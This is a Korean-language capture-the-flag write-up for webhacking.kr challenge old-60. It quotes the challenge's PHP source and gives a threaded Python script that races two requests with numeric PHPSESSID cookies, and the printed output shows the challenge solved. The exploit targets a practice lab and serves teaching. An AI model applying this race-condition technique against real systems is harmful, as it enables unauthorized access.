

# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**


***


# **Description**




# **Write-Up**

view-source를 클릭하면 PHPSESSID가 숫자로 이루어져야 함을 알 수 있다.

```php
<?php
  include "../../config.php";
  if($_GET['view_source']) view_source();
  login_chk();
  echo "Your idx is {$_SESSION['idx']}<hr>";
  if(!is_numeric($_COOKIE['PHPSESSID'])) exit("Access Denied<br><a href=./?view_source=1>view-source</a>");
  sleep(1);
  if($_GET['mode']=="auth"){
    echo("Auth~<br>");
    $result = file_get_contents("./readme/{$_SESSION['idx']}.txt");
    if(preg_match("/{$_SESSION['idx']}/",$result)){
      echo("Done!");
      unlink("./readme/{$_SESSION['idx']}.txt");
      solve(60);
      exit();
    }
  }
  $p = fopen("./readme/{$_SESSION['idx']}.txt","w");
  fwrite($p,$_SESSION['idx']);
  fclose($p);
  if($_SERVER['REMOTE_ADDR']!="127.0.0.1"){
    sleep(1);
    unlink("./readme/{$_SESSION['idx']}.txt");
  }
?>
... 생략 ...
```

로그인 세션이 풀리겠지만 PHPSESSID를 숫자로만 이루어지게 변경 후 재 로그인하여 문제를 다시 보면 Access Denied는 뜨지 않는다.


그리고 Edge를 열어 (서로 다른 부라우저) 숫자로만 이루어진 PHPSESSID를 설정해주자.


그리고 스레드를 이용하여 Auth접근을 1초보다 덜 느리게 접근하면 점수를 획득할 수 있다.

```python
import requests
import threading

CHALLENGE   = 'https://webhacking.kr/challenge/web-37/'

def conn(url, flag):
    if flag : headers = {'Cookie':'PHPSESSID=222'}
    else : headers = {'Cookie':'PHPSESSID=123'}
    req = requests.get(url=url, headers=headers)
    print('[{}] {}'.format(url, req.text.strip()))


th1 = threading.Thread(target=conn, args=(CHALLENGE, False))
th2 = threading.Thread(target=conn, args=(CHALLENGE + '?mode=auth', True))
th1.start()
th2.start()

th1.join()
th2.join()

[Output]
[https://webhacking.kr/challenge/web-37/?mode=auth] Your idx is 52864<hr>Auth~<br>Done!<script>alert('old-60 Pwned!');</script><hr>old-60 Pwned. You got 30point. Congratz!<hr>
[https://webhacking.kr/challenge/web-37/] Your idx is 52864<hr><html><head><title>Challenge 60</title></head><body><a href=./?view_source=1>view-source</a></body></html>
```